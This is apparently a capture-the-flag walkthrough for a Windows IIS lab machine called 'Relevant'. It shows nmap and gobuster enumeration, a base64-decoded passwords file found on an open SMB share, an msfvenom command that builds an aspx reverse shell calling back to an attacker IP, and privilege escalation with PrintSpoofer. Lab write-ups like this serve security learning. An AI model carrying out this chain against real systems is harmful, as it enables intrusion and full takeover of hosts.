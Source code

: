 result of nmap on target
	80/tcp   open  http          Microsoft IIS httpd 10.0
	135/tcp  open  msrpc         Microsoft Windows RPC
	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
	445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
	3389/tcp open  ms-wbt-server Microsoft Terminal Services
	Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

result of nmap script scan
	$ nmap -v --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 $TARGET_IP

	PORT     STATE SERVICE
	3389/tcp open  ms-wbt-server
	| rdp-enum-encryption: 
	|   Security layer
	|     CredSSP (NLA): SUCCESS
	|     CredSSP with Early User Auth: SUCCESS
	|_    RDSTLS: SUCCESS
	| rdp-ntlm-info: 
	|   Target_Name: RELEVANT
	|   NetBIOS_Domain_Name: RELEVANT
	|   NetBIOS_Computer_Name: RELEVANT
	|   DNS_Domain_Name: Relevant
	|   DNS_Computer_Name: Relevant
	|   Product_Version: 10.0.14393
	|_  System_Time: 2021-09-06T12:06:00+00:00

	$ nmap -v -script=smb-enum-shares $TARGET_IP

	Host script results:
	| smb-enum-shares: 
	|   account_used: guest
	|   \\10.10.38.105\ADMIN$: 
	|     Type: STYPE_DISKTREE_HIDDEN
	|     Comment: Remote Admin
	|     Anonymous access: <none>
	|     Current user access: <none>
	|   \\10.10.38.105\C$: 
	|     Type: STYPE_DISKTREE_HIDDEN
	|     Comment: Default share
	|     Anonymous access: <none>
	|     Current user access: <none>
	|   \\10.10.38.105\IPC$: 
	|     Type: STYPE_IPC_HIDDEN
	|     Comment: Remote IPC
	|     Anonymous access: <none>
	|     Current user access: READ/WRITE
	|   \\10.10.38.105\nt4wrksv: 
	|     Type: STYPE_DISKTREE
	|     Comment: 
	|     Anonymous access: <none>
	|_    Current user access: READ/WRITE

passwords.txt found in nt4wrksv share
	[User Passwords - Encoded]
	Qm9iIC0gIVBAJCRXMHJEITEyMw==
	QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
decoded result (Base64)
	Bob - !P@$$W0rD!123
	Bill - Juw4nnaM4n420696969!$$$

It turned out these credentials are useless.
Rescanning all ports,,,(nmap -v -sV -p1-65535 $TARGET_IP)
	Discovered open port 49663/tcp on 10.10.2.149

Enumerating $TARGET_IP:49663 using gobuster,,,(gobuster dir -u http://$TARGET_IP:49663 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster_on_49663)
	found a directory named nt4wrksv

Enumerating $TARGET_IP:49663/nt4wrksv using gobuster,,,(gobuster dir -u http://$TARGET_IP:49663/nt4wrksv -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .txt,.md | tee gobuster_on_49663_nt4wrksv)
	found the same txt file (passwords.txt)

Creating reverse shell payloads in aspx format because this is IIS environment
	$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.15.55 LPORT=4444 -f aspx -o revshell.aspx
Uploading this to nt4wrksv directory through smb connection...

Found user.txt in Users/Bob/Desktop

Ran winPEASx64 (output_winpeas)

Ran PrintSpoofer.exe on the system.
Found root.txt in Users/Administrator/Desktop

